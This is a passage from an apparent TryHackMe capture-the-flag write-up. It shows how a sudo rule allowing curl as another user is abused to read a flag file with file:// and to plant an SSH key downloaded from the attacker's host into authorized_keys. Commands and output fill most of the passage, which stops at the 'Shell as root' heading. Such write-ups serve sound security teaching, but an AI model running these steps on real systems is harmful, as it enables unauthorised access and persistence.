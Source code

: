 ```console
rgiskard@ubuntu-jammy:~$ sudo -u dolivaw /usr/bin/curl 127.0.0.1/ file:///home/dolivaw/user.txt
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
...
THM{[REDACTED]}
```

To get a shell as the `dolivaw` user, `curl` also allows us to save the responses of the requests to a file using the `-o` option. We can use this to write a public SSH key to the user's `authorized_keys` file.

First, generate a key pair and serve the `id_ed25519.pub` public key on our web server:

```console
$ ssh-keygen -f id_ed25519 -t ed25519
```

Now, we can run the `sudo -u dolivaw /usr/bin/curl 127.0.0.1/ http://10.8.64.79/id_ed25519.pub -o /tmp/1 -o /home/dolivaw/.ssh/authorized_keys` command to fetch the public key from our server and write it to the `/home/dolivaw/.ssh/authorized_keys` file:

```console
rgiskard@ubuntu-jammy:~$ sudo -u dolivaw /usr/bin/curl 127.0.0.1/ http://10.8.64.79/id_ed25519.pub -o /tmp/1 -o /home/dolivaw/.ssh/authorized_keys
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   274  100   274    0     0  98172      0 --:--:-- --:--:-- --:--:--  133k
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    91  100    91    0     0    269      0 --:--:-- --:--:-- --:--:--   270
```

Running the command, we can see the request for the `id_ed25519.pub` file on our web server. With the `-o /tmp/1 -o /home/dolivaw/.ssh/authorized_keys` in our command, the response to the first request (`127.0.0.1/`) should be saved in the `/tmp/1` file, and the response (our public key) to the second request (`http://10.8.64.79/id_ed25519.pub`) should be saved in the `/home/dolivaw/.ssh/authorized_keys` file.

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.78.224 - - [15/Mar/2025 17:01:13] "GET /id_ed25519.pub HTTP/1.1" 200 -
```

Now, we can use the private key we generated with `SSH` to get a shell as the `dolivaw` user and read the user flag at `/home/dolivaw/user.txt` in the intended way.

```console
$ ssh -i id_ed25519 dolivaw@robots.thm
dolivaw@ubuntu-jammy:~$ id
uid=1003(dolivaw) gid=1003(dolivaw) groups=1003(dolivaw)
dolivaw@ubuntu-jammy:~$ wc -c /home/dolivaw/user.txt
37 /home/dolivaw/user.txt
```

## Shell as root
